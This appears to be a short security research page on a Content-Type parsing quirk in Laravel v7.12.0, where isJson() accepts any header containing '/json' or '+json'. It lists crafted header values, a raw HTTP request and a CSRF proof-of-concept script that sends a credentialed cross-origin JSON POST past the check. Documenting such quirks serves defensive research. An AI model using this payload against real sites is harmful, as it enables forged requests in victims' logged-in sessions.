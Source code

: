 ### Laravel v7.12.0

**Endpoint**
```php
public function test(Request $request) {
  if($request->isJson()) {
    $data = $request->json();
```

**Source code** ([/laravel/framework/src/Illuminate/Http/Concerns/InteractsWithContentTypes.php](https://github.com/laravel/framework/blob/ffead70b97f799c0054bd5975c85325bf857b247/src/Illuminate/Http/Concerns/InteractsWithContentTypes.php#L32-L34))
```php
public function isJson()
{
  return Str::contains($this->header('CONTENT_TYPE'), ['/json', '+json']);
```

**JSON Content-Type**
```
XXX;/json
XXX;+json
```

**HTTP Request**
```http
POST /json HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;+json
Content-Length: 13

{"test":true}
```

**CSRF PoC**
```html
<script>
  fetch('http://localhost/json',{
    method:'POST',
    headers:{'Content-Type':'text/plain;/json'},
    body:'{"test":true}',
    credentials: 'include'
  });
</script>
```

**Multipart Content-Type**  
Same as [PHP](ct-tricks/PHP.md)